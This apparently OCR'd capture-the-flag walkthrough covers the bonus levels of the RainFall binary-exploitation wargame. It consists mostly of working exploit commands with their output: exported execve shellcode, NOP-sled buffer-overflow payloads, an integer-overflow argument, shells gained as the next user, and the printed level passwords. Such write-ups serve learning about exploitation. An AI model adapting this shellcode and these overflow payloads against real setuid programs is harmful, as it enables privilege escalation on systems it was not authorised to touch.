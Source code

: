 ```bash
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## bonus 00
```bash
export SHELLCODE=`python -c "print '\x25\xf7\xff\xbf' + '\x90' * 500 + '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80'"`

bonus0@RainFall:~$ python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x0e\xf7\xff\xbf' + 'A' * 30" > /tmp/file
bonus0@RainFall:~$ cat /tmp/file - | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAAA���AAAAAAA���
whoami
bonus1
cat .pass
cat: .pass: Permission denied
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
## bonus 01
```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "\x46\x4c\x4f\x57" * 30')
$ 
$ whoami
bonus2
$ cd ../bonus2/.
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```
## bonus 02
```bash
export 
LANG=fi
bonus2@RainFall:~$ ./bonus2 `python -c "print '\x44\xf6\xff\xbf' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 15 + ' ' + 'A' * 18 + '\x40\xf6\xff\xbf'"`
Hyvää päivää D���1���Qh//shh/bin��
                                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@���
Segmentation fault (core dumped)
bonus2@RainFall:~$ unset SHELLCODE
bonus2@RainFall:~$ ./bonus2 `python -c "print '\x44\xf6\xff\xbf' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 15 + ' ' + 'A' * 18 + '\x40\xf6\xff\xbf'"`
Hyvää päivää D���1���Qh//shh/bin��
                                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@���
$ id
uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
$ whoami
bonus3
$ cd ../bonus3    
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ 
```
